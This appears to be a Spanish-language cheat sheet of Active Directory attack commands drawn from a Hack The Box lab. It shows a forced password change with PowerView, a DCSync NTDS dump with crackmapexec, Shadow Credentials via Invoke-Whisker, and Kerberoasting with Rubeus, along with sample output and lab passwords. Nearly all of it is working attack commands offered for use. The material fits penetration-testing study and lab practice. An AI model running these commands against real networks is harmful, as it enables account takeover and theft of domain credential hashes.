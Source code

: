 ## Abuso ForceChangePassword

### Modificar credenciales a otro usuario

```
*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Temp> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Temp> Set-DomainUserPassword -Identity smith -AccountPassword $SecPassword
```

## Abuso de DCSync

### Dumpear NTDS

```
crackmapexec smb 10.10.10.103 -u 'mrlky' -p 'Football#7' --ntds
```

## Abuso de AddKeyCredentialLink

### Añadir Principal para crear unas Shadow Credentials

```
PS C:\Temp> Invoke-Whisker -Command "add /target:sflowers"
```

Se ejecutará el Rubeus para obtener un hash NTLM y hacer PassTheHash

### Abuso Kerberoasteable

![https://rubbxalc.github.io/writeups/assets/img/Sizzle-htb/10.png](https://rubbxalc.github.io/writeups/assets/img/Sizzle-htb/10.png)

image

### Con Rubeus

```
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> .\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : HTB.LOCAL
[*] Searching path 'LDAP://sizzle.HTB.LOCAL/DC=HTB,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mrlky
[*] DistinguishedName      : CN=mrlky,CN=Users,DC=HTB,DC=LOCAL
[*] ServicePrincipalName   : http/sizzle
[*] PwdLastSet             : 7/10/2018 2:08:09 PM
```